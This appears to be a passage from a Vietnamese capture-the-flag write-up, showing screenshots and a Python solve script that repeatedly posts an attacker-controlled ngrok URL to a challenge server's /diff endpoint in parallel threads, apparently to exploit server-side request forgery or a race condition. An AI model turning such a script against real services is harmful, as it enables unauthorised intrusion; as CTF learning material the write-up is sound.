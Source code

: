 ![alt text](image-16.png)
- Bây giờ mình sẽ tạo một giao thức để thực hiện thông qua ngrok 
 ![alt text](image-18.png)
- Và bây giờ mình sẽ viết một tập lệnh python để giải quyết nó:
```python
import requests
from threading import Thread

chall_url = 'http://103.97.125.56:32050/'
my_url = "https://93a4-116-98-247-17.ngrok-free.app"

def payload():
    data = {"url1": my_url, "url2": "http://google.com"}
    r = requests.post(chall_url+'/diff', data=data)
    print(r.text)

if __name__ == '__main__':
    for i in range(1,5):
        thread = Thread(target=payload)
        thread.start()
```